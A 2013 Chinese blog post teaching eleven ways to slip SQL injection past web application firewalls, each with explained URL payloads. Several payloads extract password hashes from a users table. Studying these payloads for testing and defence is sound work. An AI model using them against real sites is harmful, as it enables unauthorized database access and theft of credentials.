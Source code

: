 ```yaml
---
title: SQL注入中的WAF绕过技术
tags:
  - php
  - 安全
  - 软件
id: 2551
categories:
  - 学习笔记
date: 2013-01-06 13:15:37
---
```


作者：bystander
博客：[http://leaver.me](http://leaver.me/)
论坛：法克论坛

目录

1.<span style="font-family: 宋体;">大小写绕过</span>

2.<span style="font-family: 宋体;">简单编码绕过</span>

3.<span style="font-family: 宋体;">注释绕过</span>

4.<span style="font-family: 宋体;">分隔重写绕过</span>

5.Http<span style="font-family: 宋体;">参数污染</span>(HPP)

6.<span style="font-family: 宋体;">使用逻辑运算符</span> or /and<span style="font-family: 宋体;">绕过</span>

7.<span style="font-family: 宋体;">比较操作符替换</span>

8.<span style="font-family: 宋体;">同功能函数替换</span>

9.<span style="font-family: 宋体;">盲注无需</span>or<span style="font-family: 宋体;">和</span>and

10.<span style="font-family: 宋体;">加括号</span>

11.缓冲区溢出绕过

<span style="font-size: large;"><span style="color: #0000ff;">1\. 大小写绕过</span></span>
这个大家都很熟悉，对于一些太垃圾的WAF效果显著，比如拦截了union,那就使用Union UnIoN等等。绕过

<span style="font-size: large;"><span style="color: #0000ff;">2.  简单编码绕过</span></span>
比如WAF检测关键字，那么我们让他检测不到就可以了。比如检测union,那么我们就用%55 也就是U的16进制编码来代替U, union写成 %55nION，结合大小写也可以绕过一些WAF，你可以随意替换一个或几个都可以。。

也还有大家在Mysql注入中比如表名或是load文件的时候，会把文件名或是表明用16进制编码来绕过WAF都是属于这类。

<span style="font-size: large;"><span style="color: #0000ff;">3.  注释绕过</span></span>
这种情况比较少，适用于WAF只是过滤了一次危险的语句，而没有阻断我们的整个查询
<div>
> /?id=1+union+select+1,2,3/*
</div>
比如对于上面这条查询，WAF过滤了一次union和select，那么我们在之前在写一个注释的语句，让他把注释里面的过滤掉，，并不影响我们的查询。。
所以绕过语句就是：
<div>
> /?id=1/*union*/union/*select*/select+1,2,3/*
</div>
还有一种和注释有关的绕过：
比如
<div>
> index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3,4….
</div>
可以看到，只要我们把敏感词放到注释里面，注意，前面要加一个！

<span style="font-size: large;"><span style="color: #0000ff;">4.   分隔重写绕过</span></span>
还是上面的例子，适用于那种WAF采用了正则表达式的情况，会检测所有的敏感字，而不在乎你写在哪里，有几个就过滤几个。。
我们可以通过注释分开敏感字,这样WAF的正则不起作用了，而带入查询的时候并不影响我们的结果
<div>
> /?id=1+un/**/ion+sel/**/ect+1,2,3--
</div>
至于重写绕过，适用于WAF过滤了一次的情况，和我们上传aaspsp马的原理一样，我们可以写出类似Ununionion这样的。过滤一次union后就会执行我们的查询了
<div>
> ?id=1 ununionion select 1,2,3--
</div>
<span style="font-size: large;"><span style="color: #0000ff;">5.   Http参数污染(HPP)</span></span>
比如我们有这样的语句：
<div>
> /?id=1 union select+1,2,3+from+users+where+id=1--
</div>
我们可以重复一次前面的id值添加我们的值来绕过，&amp;id=会在查询时变成逗号
<div>
> /?id=1 union select+1&amp;id=2,3+from+users+where+id=1--
</div>
这种情况成功的条件比较多，取决于具体的WAF实现。。

再给出一个例子说明用法
<div>
> /?id=1/**/union/*&amp;id=*/select/*&amp;id=*/pwd/*&amp;id=*/from/*&amp;id=*/users--
</div>
具体分析的话就涉及到查询语句的后台代码的编写了。
比如服务器是这样写的：
<div>
> select * from table where a=".$_GET['a']." and b=".$_GET['b']." limit ".$_GET['c'];
</div>
那我们可以构造这样的注入语句：
<div>
> /?a=1+union/*&amp;b=*/select+1,pass/*&amp;c=*/from+users--
</div>
最终解析为：
<div>
> select * from table where a=1 union/* and b=*/select 1,pass/*limit */from users--
</div>
可以看到，这种方式其实比较适合白盒测试，而对于黑盒渗透的话，用起来比较麻烦。但是也可以一试。

<span style="font-size: large;"><span style="color: #0000ff;">6\. 使用逻辑运算符 or /and绕过</span></span>
<div>
> /?id=1+OR+0x50=0x50
> /?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74
</div>
顺便解释一下第二句话，从最里面的括号开始分析，select+pwd+from+users+limit+1,1 这句是从users表里查询pwd字段的第一条记录，比如是admin，
然后mid(上一句),1,1就是取admin的第一个字符，也就是a，
lower(上一句)就是把字符转换为小写，
然后ascii就是把a转换成ascii码，看等不等于74.

<span style="font-size: large;"><span style="color: #0000ff;">7.  比较操作符替换</span></span>
包括!= 不等于，&lt;&gt;不等于，&lt; 小于，&gt;大于，这些都可以用来替换=来绕过，
比如上一个例子，要判断是不是74，假设=被过滤，那么我们可以判断是不是大于73，是不是小于75，然后就知道是74了。。很多WAF都会忘了这个。

<span style="font-size: large;"><span style="color: #0000ff;">8.  同功能函数替换</span></span>
Substring()可以用mid(),substr()这些函数来替换，都是用来取字符串的某一位字符的。
Ascii()编码可以用hex(),bin(),也就是16进制和二进制编码替换
Benchmark() 可以用sleep()来替换，这两个使用在基于延时的盲注中，有机会给大家介绍
如果连这些都屏蔽了，还有一种新的方法
<div>
> substring((select 'password'),1,1) = 0x70
> substr((select 'password'),1,1) = 0x70
> mid((select 'password'),1,1) = 0x70
</div>
比如这三条，都是从password里判断第一个字符的值，可以用
<div>
> strcmp(left('password',1), 0x69) = 1
> strcmp(left('password',1), 0x70) = 0
> strcmp(left('password',1), 0x71) = -1
</div>
来替换，left用来取字符串左起1位的值，strcmp用来比较两个值，如果比较结果相等就为0，左边小的话就为-1，否则为1
还有我前几篇说过的group_concat 和concat和concat_ws也可以互相替换

<span style="font-size: large;"><span style="color: #0000ff;">9.    盲注无需or和and</span></span>
比如有这样一个注入点：
<div>
> index.php?uid=123
</div>
and or 被过滤了，其实有一种更直接的方法，我们直接修改123为我们的语句生成的，
<div>
> index.php?uid=strcmp(left((select+hash+from+users+limit+0,1),1),0x42)+123
</div>
123的时候页面是正确的，我们现在在盲猜hash的第一位，如果第一位等于0x42也就是B，那么strcmp结果为0，0+123=123，所以页面应该是正确的。否则就说明不是B，就这样猜，不用and 和or了。。

<span style="font-size: large;"><span style="color: #0000ff;">10\. 加括号</span></span>
<div>
> /?id=1+union+(select+1,2+from+users)
</div>
比如，上面这一条被WAF拦截了。可以试试加一些括号
<div>
> /?id=1+union+(select+1,2+from+xxx)
> /?id=(1)union(select(1),mid(hash,1,32)from(users))
> /?id=1+union+(select'1',concat(login,hash)from+users)
> /?id=(1)union(((((((select(1),hex(hash)from(users))))))))
> /?id=(1)or(0x50=0x50)
</div>
最后，个人能力毕竟有限，有些也一时想不起，想起来的话再补充。同时欢迎大家指正，补充。

<span style="font-size: large;"><span style="color: #0000ff;">11.缓冲区溢出绕过</span></span>
刚刚写着把这个给忘了。这个是从国外一个博客看到的。
<div>
> id=1 and (select 1)=(Select 0xAAAAAAAAAAAAAAAAAAAAA)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
> ,27,28,29,30,31,32,33,34,35,36–+
</div>
其中<span>0xAAAAAAAAAAAAAAAAAAAAA这里A越多越好。。一般要求1000个以上</span>